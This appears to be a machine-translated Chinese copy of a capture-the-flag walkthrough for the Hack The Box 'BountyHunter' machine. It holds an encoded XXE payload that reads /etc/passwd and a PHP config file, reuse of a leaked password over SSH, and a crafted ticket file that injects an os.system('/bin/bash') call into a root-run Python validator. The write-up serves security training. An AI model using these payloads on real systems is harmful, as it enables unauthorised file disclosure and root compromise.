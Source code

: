 # 破解盒子——赏金猎人演练

> 原文：<https://infosecwriteups.com/hack-the-box-bountyhunter-walkthrough-fb771d4f8c0?source=collection_archive---------3----------------------->

大家好，希望你们都好。我们将在《黑盒子》中看到赏金猎人机器的演练。

![](img/c4a21bdf376b71d12ef18ad32a5be6e5.png)

首先，我们从 Nmap 扫描开始。

`*nmap -sC -sV 10.10.11.100*`

![](img/df85e606204c817b447783e8a40cd527.png)

Nmap 扫描

现在，只有一个 web 应用在运行。该网络应用程序有一个门户，其中包含 CVE 记录的一些详细信息。

![](img/572946673cadec5185ef43f2c924a422.png)

网络门户

所以，现在我们将寻找 XXE 的弱点。因为在查看 burp 请求时，数据是以 XML 格式发送的。现在，我们将在 cyberchef 中使用 URL 编码和 Base64 对有效负载进行编码，有效负载的结果是

`*PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGZvbyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gInBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9L2V0Yy9wYXNzd2QiPl0gPiAKCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4meHhlOzwvdGl0bGU%2BCgkJPGN3ZT50ZXN0PC9jd2U%2BCgkJPGN2c3M%2BdGVzdDwvY3Zzcz4KCQk8cmV3YXJkPnRlc3Q8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D*`

现在插入这个。我们在 base64 中得到结果，解密时显示如下的`*etc/passwd*`文件，

![](img/ce163df764724dc3529aad86da24972c.png)![](img/78d5402d091970da10a674c3f60439c0.png)

`source: base64decode.org`

现在，我们将尝试使用 cyberchef 生成的有效负载获取 db 文件的内容。

![](img/e7957c5bad7dcc7c086c4acf5b3eb632.png)

资料来源:网络论坛

之后，插入这个有效载荷，我们将获得 db.php 文件的内容。

![](img/8e7b02d3f7df751f3d82b1264ec02cbe.png)

`source: base64decode.org`

在这里，我们可以得到密码。现在，我们将尝试使用管理员用户的 SSH 登录，但是失败了，然后我们看到有一个名为 development 的用户。现在，我们将尝试登录开发

![](img/a2837d02608b6884dc3c3c7298e09c45.png)

SSH 登录

是的，我们现在获得了用户标志，现在我们将尝试获得根标志。

通过尝试`*sudo -l*`，我们得到以下错误，

![](img/03750f93e08c95905e8739a7fb26e815.png)

须岛一号

在这里，`*/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py*`拥有 root 权限。因此，我们现在正在进行权限升级。通过阅读代码，我们知道每一次失败的尝试都会生成一张票。我们将尝试使用以下名为 root.md 的文件来获取 root

root.md 文件看起来像这样，

```
# Skytrain Inc
## Ticket to root
__Ticket Code:__
**102 + 10 == 112 and __import__(‘os’).system(‘/bin/bash’) == False
```

![](img/7622b47de8c56f2973403714bfca58ed.png)

文件:root.md

现在，尝试运行`*ticketvalidator.py*`中的 root.md 文件。

![](img/9c7310086a32c0e783f919ca1b520493.png)

根

现在，我们获得了根访问权限，我们将转到根目录以获取根标志。

跟我来:

> **insta gram**:[https://www.instagram.com/sudhakar_._m/](https://www.instagram.com/sudhakar_._m/)
> 
> **https://www.facebook.com/sudhakarmuthumani00**:[脸书](https://www.facebook.com/sudhakarmuthumani00)
> 
> **推特**:【https://twitter.com/Sudhakarmuthu04】T2
> 
> 领英:[https://www.linkedin.com/in/sudhakarmuthumani/](https://www.linkedin.com/in/sudhakarmuthumani/)
